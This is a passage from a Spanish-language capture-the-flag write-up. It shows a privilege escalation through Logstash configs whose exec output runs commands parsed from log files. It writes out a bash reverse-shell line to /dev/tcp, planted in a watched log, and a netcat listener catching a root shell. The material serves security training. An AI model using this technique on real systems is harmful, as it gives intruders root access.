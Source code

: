 El usuario kibana tiene permisos de escritura, vamos a listar el contenido de cada archivo.

`filter.conf`

```json
filter {
	if [type] == "execute" {
		grok {
			match => { "message" => "Ejecutar\s*comando\s*:\s+%{GREEDYDATA:comando}" }
		}
	}
}
```

`input.conf`

```json
input {
	file {
		path => "/opt/kibana/logstash_*"
		start_position => "beginning"
		sincedb_path => "/dev/null"
		stat_interval => "10 second"
		type => "execute"
		mode => "read"
	}
}
```

`output.conf`

```sh
output {
	if [type] == "execute" {
		stdout { codec => json }
		exec {
			command => "%{comando} &"
		}
	}
}
```

Vemos que si conseguimos crear un log en el directorio `/opt/kinbana/logstash_*` con la estructura:

```sh
echo "Ejecutar comando: bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'" > /opt/kibana/logstash_0xdf
```

Podremos ejecutar comandos con privilegios **root**:

```sh
❯ nc -lnvp 6969
listening on [any] 6969 ...
connect to [10.10.14.18] from (UNKNOWN) [10.10.10.115] 34662
bash: no hay control de trabajos en este shell
[root@haystack /]# whoami
root
```

Después de unos segundos obtendremos la shell con el usuario root, así obtendríamos la flag:

```
[root@haystack ~]# cat root.txt
12ddebdd034276f...
```

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/195)

---
